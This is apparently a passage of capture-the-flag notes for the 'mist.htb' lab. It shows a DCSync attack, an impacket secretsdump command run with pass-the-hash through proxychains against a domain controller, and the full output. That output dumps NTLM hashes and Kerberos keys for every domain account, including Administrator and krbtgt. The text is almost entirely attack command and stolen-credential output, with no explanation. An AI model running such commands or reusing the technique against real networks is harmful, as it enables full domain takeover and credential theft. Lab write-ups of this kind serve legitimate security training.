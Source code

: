 ## DC01$

### Machine Accounts

Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e121bd371bd4bbaca21175947013dd7:::

machine DC01 e768c4cf883a87ba9e96278990292260

### DCSync

$ proxychains4 secretsdump.py  mist.htb/'dc01$'@dc01.mist.htb -hashes :e768c4cf883a87ba9e96278990292260  -dc-ip 192.168.100.100 -target-ip 192.168.100.100 
[proxychains] config file found: /opt/homebrew/etc/proxychains.conf
[proxychains] preloading /opt/homebrew/Cellar/proxychains-ng/4.17/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.100:445  ...  OK
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.100:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.100.100:59759  ...  OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b46782b9365344abdff1a925601e0385:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:298fe98ac9ccf7bd9e91a69b8c02e86f:::
Sharon.Mullard:1109:aad3b435b51404eeaad3b435b51404ee:1f806175e243ed95db55c7f65edbe0a0:::
Brandon.Keywarp:1110:aad3b435b51404eeaad3b435b51404ee:db03d6a77a2205bc1d07082740626cc9:::
Florence.Brown:1111:aad3b435b51404eeaad3b435b51404ee:9ee69a8347d91465627365c41214edd6:::
Jonathan.Clinton:1112:aad3b435b51404eeaad3b435b51404ee:165fbae679924fc539385923aa16e26b:::
Markus.Roheb:1113:aad3b435b51404eeaad3b435b51404ee:74f1d3e2e40af8e3c2837ba96cc9313f:::
Shivangi.Sumpta:1114:aad3b435b51404eeaad3b435b51404ee:4847f5daf1f995f14c262a1afce61230:::
Harry.Beaucorn:1115:aad3b435b51404eeaad3b435b51404ee:a3188ac61d66708a2bd798fa4acca959:::
op_Sharon.Mullard:1122:aad3b435b51404eeaad3b435b51404ee:d25863965a29b64af7959c3d19588dd7:::
op_Markus.Roheb:1123:aad3b435b51404eeaad3b435b51404ee:73e3be0e5508d1ffc3eb57d48b7b8a92:::
svc_smb:1125:aad3b435b51404eeaad3b435b51404ee:1921d81fdbc829e0a176cb4891467185:::
svc_cabackup:1135:aad3b435b51404eeaad3b435b51404ee:c9872f1bc10bdd522c12fc2ac9041b64:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e768c4cf883a87ba9e96278990292260:::
MS01$:1108:aad3b435b51404eeaad3b435b51404ee:4a74fc05400345d580cf58aec3e6d833:::
svc_ca$:1124:aad3b435b51404eeaad3b435b51404ee:6db5b4f0e49cf6da4c937944d58c416b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:223c1b3a34e024798181df5812ff08617c8a874473002ca892f5f3312a0367d2
Administrator:aes128-cts-hmac-sha1-96:98610a32239f909d2dd7191a0b200af3
Administrator:des-cbc-md5:89e007fbc8197319
krbtgt:aes256-cts-hmac-sha1-96:1f8d633a6aca948f3cfe1ae103ef2245825dc2f16ed171823ac817c097aea0f1
krbtgt:aes128-cts-hmac-sha1-96:d746342824512200d29d504b040e150b
krbtgt:des-cbc-md5:4923193b1c981332
Sharon.Mullard:aes256-cts-hmac-sha1-96:46f1b3a696d5ce7194654e1ee205e05e5fc40fc6726232494d50172697404f59
Sharon.Mullard:aes128-cts-hmac-sha1-96:ce1d4f67122df39096a0304087a37af9
Sharon.Mullard:des-cbc-md5:1a7f4054163d7580
Brandon.Keywarp:aes256-cts-hmac-sha1-96:5b6d15db9b7d5a87e6fab031a46dc560df979523edf72109a33dbee4c9023e2a
Brandon.Keywarp:aes128-cts-hmac-sha1-96:c94f80b1f0f52971bc210cb7fa08e548
Brandon.Keywarp:des-cbc-md5:80757608c7fef2ec
Florence.Brown:aes256-cts-hmac-sha1-96:30edaa3ce504213f32a4ea4b4ee209788bc022d2702f45e512b8d552b530d9f3
Florence.Brown:aes128-cts-hmac-sha1-96:68085dd2a95d4ead421af52312472061
Florence.Brown:des-cbc-md5:ce7508bc0e7998ab
Jonathan.Clinton:aes256-cts-hmac-sha1-96:ac2f7bfaee93c245ebbd9959fa420c32b1d69780560c8a23c605eb47e5d6cc46
Jonathan.Clinton:aes128-cts-hmac-sha1-96:467238a4a231a28930e412d27ed8b09a
Jonathan.Clinton:des-cbc-md5:087c674fcdf1bf8f
Markus.Roheb:aes256-cts-hmac-sha1-96:48553e83896443f93aa77b0f280407f02d0a13da45c2c39598fb0fa298c17043
Markus.Roheb:aes128-cts-hmac-sha1-96:e48c992fe7678056ac85e0fe169c02c5
Markus.Roheb:des-cbc-md5:7940c4c8259b1af7
Shivangi.Sumpta:aes256-cts-hmac-sha1-96:4b6f0e6c634bdc4dad3b91b42fec80135c5520f49aa7f7d541d27aacfce21d89
Shivangi.Sumpta:aes128-cts-hmac-sha1-96:25fba62098625aecfe9f335aa71a01cb
Shivangi.Sumpta:des-cbc-md5:c24fa21ccb91aba1
Harry.Beaucorn:aes256-cts-hmac-sha1-96:f85edbb56f68155fb8b45360ba2e67cbe67893c8875d7ae1ea2a54085f082a73
Harry.Beaucorn:aes128-cts-hmac-sha1-96:e21bf6bd700e77fdea81121431629f4c
Harry.Beaucorn:des-cbc-md5:ab7c137ad364e66e
op_Sharon.Mullard:aes256-cts-hmac-sha1-96:14457283d779320d1bf9e003ee084c9f70d8fec7324345ac15d16241c512299f
op_Sharon.Mullard:aes128-cts-hmac-sha1-96:c439ce69fb34c7b2c693cd11dabd2488
op_Sharon.Mullard:des-cbc-md5:8cc158f8527585ba
op_Markus.Roheb:aes256-cts-hmac-sha1-96:630b8034289cce271b529607039bff05635578b555f055e15398e90665a3a91b
op_Markus.Roheb:aes128-cts-hmac-sha1-96:48f2924abb1cdbe2b029a679b9f95e2c
op_Markus.Roheb:des-cbc-md5:3876f7baa1e97932
svc_smb:aes256-cts-hmac-sha1-96:ab6fd9c7fb1497cd70e54fbe3e763cfac26fa660ceee14492736c6c183b74e37
svc_smb:aes128-cts-hmac-sha1-96:a8626be32fc03eff20e28b11101cd262
svc_smb:des-cbc-md5:b0f8bfb5e6ea0431
svc_cabackup:aes256-cts-hmac-sha1-96:7bb6d62ae4d9438ed967ac87ebe16c00ed8eec1d2ef6979288ad16a0ef9d1dd4
svc_cabackup:aes128-cts-hmac-sha1-96:f85ae26f1f4f33686293221872fef92a
svc_cabackup:des-cbc-md5:4a7504e5341910df
DC01$:aes256-cts-hmac-sha1-96:a47600b1ff206958b49938fdff101d4444253de01f595c7fe1a5276e4265c245
DC01$:aes128-cts-hmac-sha1-96:7043bf9b8bf4e5886058da7defab4581
DC01$:des-cbc-md5:07fef70d97161502
MS01$:aes256-cts-hmac-sha1-96:eb63394ce682b22c0fb3c276311849451342610599591754beef8d3cf27e2214
MS01$:aes128-cts-hmac-sha1-96:f9d24f9b45194a614ce418e98982f25a
MS01$:des-cbc-md5:bacb4cae588a01da
svc_ca$:aes256-cts-hmac-sha1-96:ea5f16e62631c478173135932531e38c582032e6e75e40a196946faa2672fb2a
svc_ca$:aes128-cts-hmac-sha1-96:485a2326700449853eb4bb38e2f61d3c
svc_ca$:des-cbc-md5:b3439497cef2f82c